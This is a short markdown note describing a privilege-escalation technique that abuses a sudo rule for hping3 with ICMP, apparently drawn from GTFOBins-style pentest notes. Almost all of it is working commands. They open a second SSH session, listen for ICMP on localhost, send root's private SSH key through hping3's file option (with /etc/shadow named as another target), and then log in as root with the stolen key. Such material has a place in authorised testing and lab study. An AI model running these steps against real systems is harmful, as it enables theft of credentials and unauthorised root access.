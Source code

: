 # Hping3 Privilege Escalation

Link: https://gtfobins.github.io/gtfobins/hping3/

## Sudo 

    User USER may run the following commands on HOSTNAME:
      (root) /usr/sbin/hping3 --icmp *

### 1) If you have credentials from the user, create a second session via SSH.

    ssh USER@IP

### 2) On your newly created SSH session, run this to listen for ICMP packets

    sudo /usr/sbin/hping3 --icmp 127.0.0.1 --listen signature --safe

### 3) On your first session, run this to dump the root's private SSH key (or any other sensitive file like /etc/shadow for example)

    sudo /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa

### 4) SSH as root

    chmod 600 id_rsa
    ssh root@IP -i id_rsa
